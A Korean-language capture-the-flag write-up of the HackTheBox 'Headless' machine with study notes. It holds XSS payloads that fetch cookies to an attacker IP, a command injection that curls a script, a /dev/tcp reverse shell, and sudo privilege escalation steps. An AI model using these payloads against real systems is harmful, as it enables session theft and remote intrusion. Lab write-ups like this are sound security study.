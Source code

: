 htb: headless
### 사용한 취약점: XSS(쿠키 탈취)
- 포트 스캔 결과: 22, 5000(upnp)
- 5000페이지의 웹에 입력값을 넣는 필드가 있고 <>가 있을 경우 error 경고 창이 뜬다.
- gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
- /support 200과 /dashboard 500 결과를 확인하였고 500에는 관리자 쿠키를 탈취하여 접근한다.
  <br></br>
- burpsuite를 사용하여 message=에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);>로 전송
  - 관리자의 쿠키 값이 전송된다
- 먼저 python3 -m http.server 8001로 쿠키값을 전송받을 서버를 설정한다
- user-agent에는 <img src=x onerror=fetch('http://10.10.16.40:8001/'+document.cookie);> 설정
- 파라이터 message에는 <img src=x onerror=fetch('http://10.10.16.40:8001/?c='+document.cookie);> 설정
  - 설정하고 전송할 경우 관리자의 쿠키 값이 전달된다
    - 이를 쿠키 값에 설정하고 /dashboard에 접근한다
<br></br>
- nc -lnvp 4444
- date= 부분에 data=; curl http://10.10.16.40:4444/shell.sh로 리버스 쉘을 획득할 수 있다.
- shell.sh 내용
  - #!/bin/bash sh -i >& /dev/tcp/10.10.16.40/4444 0>&1
<br></br>
- user.txt 플래그 값을 읽고 그 후 sudo -l로 root 비밀번호 없이 실행할 수 있는 /usr/bin/syscheck 존재를 알 수 있다.
- gpt로 분석한 결과 시스템을 체크하는 기능을 갖는다
  - 프로그램 안에서 ./initdb.sh
  - home에서 initdb.sh를 실행한다
  - 그 다음에 /bin/bash -p로 권한상승을 한다
<br></br>
### 알게 된 것
- xss 실행의 다양한 방법
  - https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
- xss 판단은 <script>alert('xss')</script>로 테스트
  - 소스 보기에서 코드 검사
  - DOM에 동적으로 삽입 되는 경우 찾기
- /bin/bash -p
  - bash shell을 privileged 옵션으로 실행
- sudo -l
  - 현재 사용자가 sudo로 실행할 수 있는 프로그램 나열
  - pw없이 sudo 사용할 수 있는 프로그램도 나열
  - User user1 may run the following commands on hostname: (ALL) ALL
      - user1 is allowed to run any command('ALL') as any user('ALL')
